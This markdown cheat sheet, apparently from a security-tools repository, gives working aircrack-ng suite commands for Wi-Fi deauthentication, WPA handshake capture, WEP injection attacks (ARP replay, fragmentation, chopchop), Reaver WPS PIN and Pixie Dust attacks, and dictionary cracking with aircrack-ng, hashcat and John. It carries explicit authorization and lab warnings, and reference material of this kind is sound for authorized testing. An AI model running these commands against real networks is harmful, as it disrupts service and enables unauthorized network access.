

# Advanced Aircrack-ng Commands 📡

**Reference index and audit status:** [Reviewed cheat sheets and references](./CHEATSHEET-REFERENCE-AUDIT-2026-10-31.md).

> [!WARNING]
> **Reviewed November 24, 2026.** This is a legacy/professional lab command reference. Injection, deauthentication, WEP replay and WPS tests are **active transmissions**, not passive monitoring, and can disrupt networks. Require a written scope and lab AP; do not treat default interface names, driver support, PMF negotiation or WPA3-SAE behavior as interchangeable. Prefer the [Wi-Fi detection and PMF reference](./wifi-deauthentication-detection.md) for passive incident analysis, the [Wardriving index](../Wardriving/README.md) for surveying and the [official aircrack-ng documentation](https://www.aircrack-ng.org/documentation.html) for supported command syntax.

## 🎯 Purpose
Command reference for the aircrack-ng suite covering traditional Wi-Fi lab workflows, including receive-only monitoring and separately authorized active deauthentication/WEP/WPS testing. PMKID collection is not inherently passive: behavior depends on the capture tool, its version and configuration.

## ⚙️ Function
Organized by workflow phase and attack type: basic WPA/WPA2 handshake workflow, advanced deauth options, WEP cracking, WPS attacks, airodump/aireplay advanced flags, and file format conversion. This file uses aircrack-ng's own cracking engine and covers legacy formats including WEP and WPS PIN attacks. The [HCXTools & Hashcat guide](hcxtoolshashcat.md) distinguishes radio capture behavior from offline conversion and testing; `hcxdumptool` can also transmit or interact actively.

## 🏆 Goal
Capture a WPA handshake or recover a WEP/WPS key using the aircrack-ng toolkit, then crack the resulting hash via dictionary attack.

## 📋 When to Use
- When evaluating AP/client response to active disconnection **in an explicitly authorized isolated lab**, not routine troubleshooting
- When targeting **WEP** networks (aircrack-ng is the standard tool for IV-based WEP cracking)
- When running **WPS PIN attacks** with Reaver/Pixiedust
- When hcxtools is unavailable or the target network has no PMKID
- When you want to use aircrack-ng's built-in CPU-based cracker rather than GPU (Hashcat)

---

### Basic Workflow

**1. Enable Monitor Mode**

> [!CAUTION]
> `airmon-ng check kill` may stop NetworkManager, `wpa_supplicant`, DHCP, or other processes and disconnect this computer from Wi-Fi. Do not run it over a connection you need to keep. Record the active interface and network-manager service first; use a dedicated lab host/adapter where possible.

```bash
sudo airmon-ng check               # Inspect likely interfering processes first
sudo airmon-ng check kill          # Stops conflicting processes; may interrupt connectivity
sudo airmon-ng start wlan1         # Example only; confirm the actual interface name
```

**Restore connectivity after the lab:** use the monitor-interface name reported by your system, then restart only the network manager that was active before testing. For a NetworkManager-based system:

```bash
sudo airmon-ng stop wlan1mon
sudo systemctl restart NetworkManager
```

Interface names and service management vary by distribution. Verify managed mode, reconnect using the normal trusted network profile, and consult the [official airmon-ng recovery notes](https://www.aircrack-ng.org/doku.php?id=airmon-ng) if the adapter does not return to service.

**2. Scan for Networks**
```bash
sudo airodump-ng wlan1mon                                              # Scan all channels
sudo airodump-ng -c 6 --bssid XX:XX:XX:XX:XX:XX wlan1mon             # Target specific AP
```

**3. Capture Handshakes**
```bash
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan1mon
```

**4. Deauth Attack (Force Handshake)**
```bash
sudo aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF wlan1mon           # Deauth all clients
sudo aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c CLIENT:MAC wlan1mon  # Target specific client
```

---

### Advanced Techniques

**WPA/WPA2 Cracking (aircrack-ng built-in)**
```bash
# Dictionary attack
aircrack-ng -w /path/to/wordlist.txt -b AA:BB:CC:DD:EE:FF capture-01.cap

# With ESSID filter
aircrack-ng -w wordlist.txt -e "NetworkName" capture-01.cap

# Using multiple CPU cores
aircrack-ng -w wordlist.txt capture-01.cap -p 4
```

> **GPU cracking:** For faster cracking, convert the .cap to Hashcat's unified format and use mode 22000.
> See [hcxtoolshashcat.md](hcxtoolshashcat.md) for the conversion workflow.

**WEP Cracking**
```bash
# Fake authentication
sudo aireplay-ng --fakeauth 0 -a AA:BB:CC:DD:EE:FF -h YOUR:MAC wlan1mon

# ARP replay attack (generates IVs)
sudo aireplay-ng --arpreplay -b AA:BB:CC:DD:EE:FF -h YOUR:MAC wlan1mon

# Crack WEP key (run once you have 20,000+ IVs)
aircrack-ng capture-01.cap
```

**WPS Attacks**
```bash
# Scan for WPS-enabled networks
sudo wash -i wlan1mon

# Reaver online brute force (WPS PIN)
sudo reaver -i wlan1mon -b AA:BB:CC:DD:EE:FF -vv

# Pixie Dust attack (offline - exploits weak random number generation)
sudo reaver -i wlan1mon -b AA:BB:CC:DD:EE:FF -vv -K
```

**PMKID Collection (Capture Behavior Depends on Tool and Mode)**



*Conceptual boundary diagram, not an RF test or command recipe.* Upstream [hcxdumptool documentation](https://github.com/ZerBea/hcxdumptool) states that its default behavior includes active association to an access point and client disassociation. Options and behavior vary across releases. If a review requires receive-only capture, verify the installed receiver's exact mode and ensure it transmits nothing. No explicit deauthentication command does not by itself establish passive behavior.

```bash
# For receive-only observation, capture existing traffic with a
# packet receiver explicitly configured and verified to transmit nothing.
# Do not assume a named capture tool or a no-deauth mode is passive.
# Convert an existing authorized capture (syntax varies by tool release).

# Convert to Hashcat unified format (mode 22000)
hcxpcapngtool -o pmkid.hc22000 pmkid.pcapng

# Crack with Hashcat
hashcat -m 22000 pmkid.hc22000 wordlist.txt
```
> For the full passive PMKID workflow, see [hcxtoolshashcat.md](hcxtoolshashcat.md).

---

**Airodump-ng Advanced Options**
```bash
# Save only handshakes in pcap format
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture --output-format pcap wlan1mon

# Show hardware manufacturers
sudo airodump-ng --manufacturer wlan1mon

# Focus on 5GHz band
sudo airodump-ng --band a wlan1mon

# Show only WPA networks
sudo airodump-ng --encrypt wpa wlan1mon
```

**Aireplay-ng Advanced Options**
```bash
# Continuous deauth (use with caution - disrupts all clients)
sudo aireplay-ng --deauth 0 -a AA:BB:CC:DD:EE:FF wlan1mon

# Interactive packet replay
sudo aireplay-ng --interactive wlan1mon

# Fragmentation attack (generates keystream for WEP)
sudo aireplay-ng --fragment -b AA:BB:CC:DD:EE:FF -h YOUR:MAC wlan1mon

# Chopchop attack (decrypts WEP packet without key)
sudo aireplay-ng --chopchop -b AA:BB:CC:DD:EE:FF -h YOUR:MAC wlan1mon
```

---

**Converting Capture Files**
```bash
# Convert .cap to pcapng (required for hcxpcapngtool input)
editcap -F pcapng capture-01.cap capture-01.pcapng

# Convert pcapng to Hashcat unified format (mode 22000)
hcxpcapngtool -o output.hc22000 capture-01.pcapng

# Merge multiple capture files
mergecap -w merged.cap capture-*.cap

# Clean/filter capture file
wpaclean cleaned.cap capture-01.cap
```

**Cracking with Hashcat (mode 22000)**
```bash
# Compatible WPA-PBKDF2 PMKID/EAPOL captures use Hashcat mode 22000;
# WPA3-SAE is NOT covered by a generic WPA2 dictionary-cracking workflow.
hashcat -m 22000 output.hc22000 wordlist.txt

# With rules
hashcat -m 22000 output.hc22000 wordlist.txt -r rules/best64.rule
```

**Cracking with John the Ripper**
```bash
hccap2john capture.hccap > hash.txt
john --wordlist=wordlist.txt hash.txt
```

---

## Toolchain Selection & Adapter Compatibility

| Related Guide | Why Use It |
|---|---|
| [Wi-Fi Adapter Selection](./wifi-adapter-selection-guide.md) | Check chipset/revision, driver, 2.4/5/6 GHz and monitor/injection separately |
| [Kismet](../Wardriving/kismet.md) | Receive-focused survey, GPS logs and WIDS rather than attack automation |
| [Fern WiFi Cracker](./fern-wifi-cracker-guide.md) | Historical graphical wrapper, dependent on Aircrack-ng |
| [Wifite2 & Wifite3](./wifite-guide.md) | Separate automation projects, active-method risks and hardware matrices |
| [Pixiewps](./pixiewps-guide.md) | Specific weak WPS entropy, not generic WPA2 cracking |
| [Hashcat](./hashcat-guide.md) | General offline auditing; see [HCX](./hcxtoolshashcat.md) for WPA2 format 22000 |
| [Wireless Tool Ecosystem](./wireless-toolkit-reference.md) | All related Wi-Fi, Bluetooth & radio references |

Note that Aircrack-ng includes both receive-focused capture utilities and tools that **actively transmit**. Monitor mode alone does not prove packet injection works. For WPS, inspect AP configuration and firmware first; the existence of a PIN or WPS advertisement is not proof of a recoverable secret.

## Additional Resources 📚

- Aircrack-ng documentation: https://www.aircrack-ng.org/documentation.html
- Hashcat wiki: https://hashcat.net/wiki/

---

## Security and Ethical Considerations ⚠️

**IMPORTANT**: These tools are for **authorized security testing only**. Unauthorized use is illegal.

- Get **written permission** before testing any network. Only test networks you own or have explicit authorization to test.
- All cracking attempts must be done in an **isolated lab environment** against hashes you are authorized to possess.
- Strictly comply with all local laws and regulations.

**Legal Use Cases:**
- Penetration testing with client authorization
- Testing your own home or lab network security
- Security research in isolated lab environments

---

## Related Files
- [README.md](README.md) - Documentation section index: all guides and cheat sheets in this directory
- [hcxtoolshashcat.md](hcxtoolshashcat.md) - Capture-mode boundaries, offline conversion, and applicable Hashcat mode 22000 analysis
- [pwnagotchi_cheatsheet.md](pwnagotchi_cheatsheet.md) - Fork-specific capture behavior; active and passive modes vary
- [WifiMarauder_CheatSheet.md](WifiMarauder_CheatSheet.md) - ESP32 Marauder for mobile WiFi auditing
